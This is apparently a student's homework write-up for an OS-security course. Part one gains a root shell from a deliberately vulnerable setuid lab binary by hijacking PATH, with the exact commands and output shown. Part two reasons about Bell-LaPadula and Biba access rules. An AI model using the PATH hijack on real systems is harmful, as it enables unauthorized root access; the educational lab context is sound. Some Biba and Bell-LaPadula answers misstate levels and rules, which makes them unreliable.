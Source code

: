 # Assignment 4

## 1 - Play around with the setuid (suid) bit

In Week 1 lecture, you were introduced to the **setuid** bit. In this exercise, you will learn how to carry out *privilege escalation* using suid.

Login to your (Kali) Linux system as a **non**-root user and download the program **showdate** from [https://www.cs.ru.nl/~vmoonsamy/teaching/ossec2016/showdate](https://www.cs.ru.nl/~vmoonsamy/teaching/ossec2016/showdate) (for 64-bit OS).

Then, change the owner
`$ sudo chown root:root showdate`
set the suid bit and make it executable
`$sudo chmod u+s,a+x showdate`
Execute the program and verify it prints the date correctly
`$ ./showdate`
*Fri Nov 18 xx:xx:xx EST 2016*

Install the tool **strace**
`$ sudo apt-get isntall strace`
and run it to see system calls used by **showdate**
`$ strace -f ./showdate`



**Objectives**

* a) Find out what the program does internally. What system calls does it use?
	* Answer: strace is printing its output to stderr and not to stdout. Therefore you have to redirect its output to later pipe it to grep.

	```
	root@kali:~/operating_systems_security/assignment-4# strace -f ./showdate 2>&1 | grep -oP "\w+(?=\()" | sort -u
	access
	arch_prctl
	brk
	clone
	close
	execve
	exit_group
	fstat
	geteuid
	getpid
	getppid
	lseek
	mmap
	mprotect
	munmap
	open
	read
	rt_sigaction
	rt_sigprocmask
	rt_sigreturn
	setgid
	setuid
	stat
	wait4
	WEXITSTATUS
	WIFEXITED
	write
	```
	

* b) Assume the role of a non-privileged attacker. Use the program *showdate* to obtain a root shell. You can verify if you succeeded by looking at the output of **id**, it should be something like: `$ /usr/bin/id` *uid=0(root) gid=0(root) groups=0(root),27(sudo),1001(test1)* Hand in the exact console commands you used to get this working.

	* Answer: The solution is based on this article [Reach the Root](https://hackmag.com/security/reach-the-root/) under the **Path** section. The main idea here is that you modify the PATH variable to escalate privileges. The showdate script is invoking the date command which is not hard-coded to a specific path but can be altered inside the PATH variable which we can modifiy even without root privileges. 

	```
	testuser1@kali:/root/operating_systems_security/assignment-4$ id
	uid=1000(testuser1) gid=1000(testuser1) groups=1000(testuser1)

	testuser1@kali:/root/operating_systems_security/assignment-4$ ln -s /bin/sh date
	testuser1@kali:/root/operating_systems_security/assignment-4$ PATH=.:${PATH}
	testuser1@kali:/root/operating_systems_security/assignment-4$ export PATH
	testuser1@kali:/root/operating_systems_security/assignment-4$ ./showdate
	# id
	uid=0(root) gid=0(root) groups=0(root),1000(testuser1) 
	```

	By creating a symbolic link from /bin/sh to date and then prepend the current directory to the PATH variable, the showdate script is not executing the date command but /bin/sh instead and we get our shell.

* c) Explain what a developer could do to overcome this issue. What explicit actions should a developer take when writing software that is intended to be used with *setuid-root* to avoid these types of problems?
	* Answer: A developer could hard-code the dependencies of the script into locations which are only accessable to root and do not rely on entries inside the PATH variable which can be altered by normal users.




## 2 - Trust models

In this exercise we consider a reference monitor which uses Mandatory Access Control (MAC) to implement the Bell-LaPadula and the Biba model. The Bell-LaPadula model uses levels **unclassified** <= **confidential** <= **secret** <= **top secret**. The Biba model uses levels **untrusted** <= **user** <= **application** <= **system** <= **trusted**. The following objects with corresponding secrecy and trust levels are used in this exercise:

* /home/peter/database (confidential, user),
* /etc/password (confidential, trusted)
* /etc/shadow (top secret, trusted)
* /usr/bin/someprog (unclassified, application)
* /usr/lib/somelib.so (unclassified, system)
* Network socket to 203.0.113.42, port 80 (unclassified, untrusted)

**Objectives**


* a) For each of the following steps determine whether the reference monitor will allow the action. If not, explain why not (if there are multiple reasons, state all).
	* i) User peter logs in with clearance (secret, application) and tries to run */usr/bin/someprog*.

		* Answer: I assume that both the Bell-LaPadula and the Biba model are using weak tranquility as shown in the slides. **Weak tranquility** = Security level of a process never changes in a way that it violates the security policy. Typically start with low level, and increase as the process reads higher-level information. As peter logs in with clearance (secret, application), */usr/bin/someprog* receives the levels (unclassified, trusted). Therefore the action is **allowed**. 

	* ii) The process dynamically loads (reads) */usr/lib/somelib.so*

		* Answer: As the process dynamically loads */usr/lib/somelib.so*, */usr/bin/someprog* receives the levels (unclassified, system). Therefore the action is **allowed**. 

	* iii) The process reads */home/peter/database*.

		* Answer: Because */home/peter/database* has the level (confidential, user) and */usr/bin/someprog* cannot read below the confidentiality level *application* (No read-down), this action is **not allowed**.

	* iv) The process writes data to the network socket.
		* Answer: Because the network socket has the level (unclassified, untrusted) and */usr/bin/someprog* is running with (unclassified, system), this action is **allowed**. The Biba rule forbids write-up but not write-down.

	* v) The process reads */etc/password*.
		* Answer: As the process is reading */etc/password* with level (confidential, trusted), the process is receiving the level (confidential, system) and is therefore **allowed** to execute this action. The Bida rule forbids read-down but not read-up.

	* vi) The process writes */etc/shadow*.
		* Answer: As the process is trying to write to */etc/shadow* with level (confidential, trusted), the process still has the level (confidential, system). The Bida rule forbids write-up, therefore this action is **not allowed**.

* b) The process from part a) now creates a new file */home/peter/out*. What are the permitted pairs of trust and secrecy level for this output file?

	* Answer: At the end of action vi the process spawned from executing */usr/bin/someprog* has the level of (confidential, system). As the Bell-LaPadula model forbids write-down but write-up is not a problem, the output file could have have any confidentiality level of confidential, secret or top secret but not unclassified. The Biba model forbids write-up but write-down is not a problem, therefore the integrity level could be anything between system, application, user or untrusted but not trusted. Any combination from those two sets is therefore a possible combination for the file */home/peter/out* like (top secret, system). 
